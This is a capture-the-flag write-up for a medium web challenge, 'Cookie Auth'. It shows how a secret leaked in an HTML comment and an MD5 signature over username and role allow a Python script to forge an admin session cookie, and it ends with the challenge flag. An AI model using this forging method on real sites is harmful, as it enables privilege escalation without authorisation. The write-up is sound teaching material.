



## **Challenge Overview**

**Name:** Cookie Auth
**Category:** Web  
**Difficulty:** Medium
**Points**: 300
###### Challenge Description

We just rolled out our new homegrown authentication system for the CTF7 staff portal. It uses signed cookies instead of JWT -- simpler is better, right? Guest access is available so you can take a look around. The admin panel is reserved for senior staff only.

---

After logging in as `guest`, we inspect the browser storage and find a cookie:
```
session_token = eyJ1c2VybmFtZSI6ICJndWVzdCIsICJyb2xlIjogInVzZXIiLCAic2lnIjogIjUwMjEzODg4N2VkNzg0NjhjN2U3YmVjZDIyODIzNTAwIn0=
```


```
{  
"username": "guest",  
"role": "user",  
"sig": "502138887ed78468c7e7becd22823500"  
}
```

## **Inspect Source Code**

Viewing page source reveals a critical comment:
```
<!-- debug: auth_secret=supersecretkey -->
```


#### **Understand Signature Mechanism**

From the decoded cookie, we infer:
```
sig = md5(secret + username + role)
```

Then recompute signature:
```python

import hashlib
import base64
import json

secret = "supersecretkey"
username = "guest"
role = "admin"

data = secret + username + role
sig = hashlib.md5(data.encode()).hexdigest()

payload = {
    "username": username,
    "role": role,
    "sig": sig
}

cookie = base64.b64encode(json.dumps(payload).encode()).decode()

print("New Cookie:")
print(cookie)
```


**Generated Cookie**
```
eyJ1c2VybmFtZSI6ICJndWVzdCIsICJyb2xlIjogImFkbWluIiwgInNpZyI6ICJjOTU1YTg2OTkyYzU3NTk1NDgxY2MwNjc4ODAxZDgwYyJ9
```

Replace the existing `session_token` in browser storage




```
ctf7{dont_eat_cookie_951ab3e9}
```
---
